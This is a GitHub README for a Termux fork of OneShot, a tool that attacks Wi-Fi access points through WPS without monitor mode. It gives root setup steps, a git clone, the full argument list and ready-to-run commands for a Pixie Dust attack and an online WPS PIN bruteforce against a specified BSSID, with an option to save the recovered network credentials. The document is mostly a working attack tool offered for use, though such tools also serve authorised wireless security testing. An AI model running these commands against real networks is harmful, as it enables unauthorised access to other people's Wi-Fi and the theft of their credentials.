 # OneShot for Termux with vibro/sound notification

## [For sound notification line #1007 must be edited by yourself "audio/file"](https://github.com/jevgenyonegin/OneShot_Termux_light_mod/blob/0d220cf7c127fd4f844149aeea85e5f414220979/oneshot.py#L1007)
Termux: nano -l +1007 oneshot.py > make changes > Ctrl+o > Ctrl+x

## This method not working on MIUI roms (or maybe some others), so there is another way to at least play sound
```
pkg install play-audio
```
Edit line [#1007](https://github.com/jevgenyonegin/OneShot_Termux_light_mod/blob/0d220cf7c127fd4f844149aeea85e5f414220979/oneshot.py#L1007) replacing "termux-media-player play" with "play-audio"

As example:
```
proc = subprocess.Popen('play-audio knock.ogg', shell=True)
```
# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
# Setup

## [Termux](https://f-droid.org/en/packages/com.termux/)
Please note that root access is required.  

**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 ```
**Getting OneShot**
 ```
 git clone --depth 1 https://github.com/jevgenyonegin/OneShot_Termux_light_mod OneShot
 ```
#### Running
 ```
 sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
 ```

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -v, --verbose            : Verbose output
     --pbc                    : Run WPS push button connection
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `drygdryg` for developing OneShot
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` developing Pixiewps;
* `eda-abec` for vulwsc updates.
